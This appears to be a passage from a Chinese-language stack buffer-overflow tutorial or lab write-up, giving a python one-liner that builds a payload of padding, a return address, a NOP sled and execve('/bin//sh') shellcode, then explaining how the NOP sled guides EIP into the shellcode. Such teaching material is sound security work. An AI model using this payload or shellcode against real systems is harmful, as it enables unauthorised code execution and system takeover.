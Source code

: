 

我们可以看到43，也就是C刚好就在esp的第一个，那么接下来就可以拼接溢出代码了

```
python -c 'print("A" * 44 + p32(0xbffff080) + "\x90" * 100  + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")'
```
为什么选esp中的0xbffff080地址作为下一跳地址呢？
答：因为\x90代表0x90，它不进行任何操作，也不结束，一直向下执行，这样它就可以作为一个滑板，滑进我们的shellcode中了，所以eip的地址只要跳到0x90之中即可。